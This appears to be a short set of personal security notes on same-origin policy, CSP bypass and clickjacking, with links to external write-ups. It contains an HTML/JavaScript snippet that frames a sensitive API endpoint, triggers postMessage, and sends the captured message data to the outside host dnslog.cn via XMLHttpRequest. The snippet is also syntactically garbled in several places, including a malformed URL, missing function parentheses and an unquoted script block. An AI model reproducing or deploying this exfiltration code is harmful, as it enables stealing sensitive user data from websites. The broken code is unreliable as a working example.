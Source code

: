 ## SOP
## CSP
Content-Security-Policy
- [Bypass of CSP](https://csplite.com/csp320/)
- data protocol allowed: xss by iframe, combining postMessage

[ClickJacking](https://resources.infosecinstitute.com/topic/bypassing-same-origin-policy-part-3-clickjacking-cursorjacking-filejacking/)
```
<html>
<body>
<iframe id='attack' src="http"//get_method_api_response_contains_sensitive_info/api"></iframe>
<script type="text/javascript">

var frame = document.getElementById("attack");
frame.addEventListener("load", function(){
  setTimeout(sendInfo,600)}
  )
 
function getInfo{
var payload = btoa(<script>                     #data protocol
    window.addEventListener(
     function(event)
       {xhr = new XMLHttpRequest();
        xhr.open("GET","http://dnslog.cn?message="+ event.data);
        xhr.send(null)}
     )
}     

function sendInfo{
 frames[0].postMessage("")
}
</script>
</body>
</html>
```
- [postMessage XSS on a million sites](https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/)
